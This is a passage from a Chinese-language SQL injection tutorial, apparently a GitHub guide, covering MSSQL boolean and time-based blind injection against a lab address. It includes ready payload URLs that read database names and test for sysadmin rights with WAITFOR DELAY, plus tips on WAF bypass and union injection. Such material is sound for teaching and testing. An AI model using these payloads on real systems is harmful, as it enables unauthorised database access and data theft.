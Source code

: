 
![mysql](./img/1.5.1.png)


如果你绕过了declare 那么waf基本没啥用了，这里如果你用hackbar的话记得把加号url编码。


# 第六章 MSSQL盲注与联合注入

### 0x00 盲注

#### 布尔盲注

其实跟mysql大同小异 无非就是分割字符串比较，但是mssql的盲注套路确实没那么多


```
http://192.168.130.137/1.aspx?id=1 and ascii(substring((select top 1 name from master.dbo.sysdatabases),1,1)) >= 109

```


#### 时间盲注


```
http://192.168.130.137/1.aspx?id=1;if (select IS_SRVROLEMEMBER('sysadmin'))=1 WAITFOR DELAY '0:0:5'--

http://192.168.130.137/1.aspx?id=1;if (ascii(substring((select top 1 name from master.dbo.sysdatabases),1,1)))>1 WAITFOR DELAY '0:0:5'--


```


当然盲注你也可以使用前面提到的declare 灵活运用吧,对于盲注这块感觉mssql不如mysql灵活


### 0x02 联合注入

mssql联合注入我们一般不使用 数字占位，而是null，因为你使用数字占位可能会发生隐式转换
